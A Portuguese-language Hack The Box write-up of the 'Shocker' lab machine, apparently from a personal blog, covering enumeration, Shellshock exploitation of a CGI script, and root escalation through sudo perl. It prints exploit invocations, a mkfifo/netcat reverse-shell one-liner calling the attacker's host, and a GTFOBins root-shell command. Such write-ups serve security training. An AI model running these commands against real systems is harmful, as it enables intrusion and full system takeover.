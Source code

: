 ```yaml
---
title:     "Hack The Box - Shocker"
tags: [linux,easy, CVE 2014-6278, CVE 2014-6271, sudo perl]
categories: Linux
---
```


![1.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-shocker/1.jpg)

## Enumeration

Conforme venho automatizando o processo inicial de enumeracao e tbm adicionei algumas regras para gerenciar melhor meu tempo.

Inicio com o autorecon e em paralelo vou enumerando manualmente para ganhar tempo, visto que o autorecon dura um pouco mais de uma hora...

Eu terminei essa maquina em 70 minutos e o autorecon ainda nao tinha terminado..

Vamos laaa

`autorecon --single-target 10.10.10.56`

![2.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-shocker/2.jpg)

Em paralelo eu comecei fazer outros scan specificos e algumas pesquisas, depois de alguns minutos fui dar uma olhada no results do autorecon e ja encontrei algo interessante

![3.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-shocker/3.jpg)

Como podes observar existe o dir `/cgi-bin/` no entanto eu ainda precisava encontrar um `file` com a extension `.cgi ou .sh ` para o exploit funcionar

entao usando o gobuster, rapidamente encontro o que eu precisava...

`gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.10.56/cgi-bin/ -t 30 -x cgi -t 40`

![4.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-shocker/4.jpg)

## Reverse Shell

Um busca rapida no google vc encontra algumas tools paraa automatizar o processo de reverse shell

***reference*** https://github.com/offensive-security/exploitdb/blob/master/exploits/linux/remote/34900.py

`python 34900.py payload=reverse rhost=10.10.10.56 lhost=10.10.14.24 lport=53 pages=/cgi-bin/user.sh`

![5.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-shocker/5.jpg)

Precisa obter uma shell mais funcional, isso eh facil e rapido de fazer...

`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.24 443 >/tmp/f`

![6.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-shocker/6.jpg)

## Spawn shell

```
$ python -c 'import pty;pty.spawn("/bin/bash")';
/bin/sh: 1: python: not found
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
```

## Privilege Escalation

Bom, rapidamente encontro os vetores para escalar privilegios..

usando o `sudo -l` e o comando `id`

![7.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-shocker/7.jpg)

voce pode tbm utilizar outras tools que faz isso de forma automatica, lembre-se tempo eh ourooooo..

veja que voce pode executar o `perl`  como root usando o `sudo` e tbm o nosso user faz parte do grupo `110(lxd)` que tbm eh possivel escalar por ele. Nao vou abordar isso aqui,, se vc quiser veja isso https://www.hackingarticles.in/lxd-privilege-escalation/


### Using sudo perl

com o site https://gtfobins.github.io/gtfobins/perl/#sudo voce encontra rapidamente os comandos necessarios para fazer isso...

`sudo /usr/bin/perl -e 'exec "/bin/sh";'`

![8.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-shocker/8.jpg)


